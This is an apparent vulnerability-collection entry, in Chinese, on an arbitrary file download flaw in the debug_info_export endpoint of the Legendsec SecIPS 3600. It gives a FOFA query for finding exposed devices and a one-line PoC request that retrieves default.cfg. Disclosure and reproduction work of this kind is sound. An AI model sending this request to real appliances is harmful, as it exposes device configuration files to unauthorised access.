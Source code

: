 # 网神 SecIPS 3600 debug_info_export 任意文件下载漏洞

# 网神 SecIPS 3600 debug_info_export 任意文件下载漏洞

## 漏洞描述

网神 SecIPS 3600 debug_info_export接口存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

```
网神 SecIPS 3600
```

## 网络测绘

```
app="网神-SecIPS"
```

## 漏洞复现

登录页面

![image-20230314090018282](images/image-20230314090018282.png)

验证POC

```
/webui/debug/debug_info_export?filename=default.cfg
```

![image-20230314090033658](images/image-20230314090033658.png)

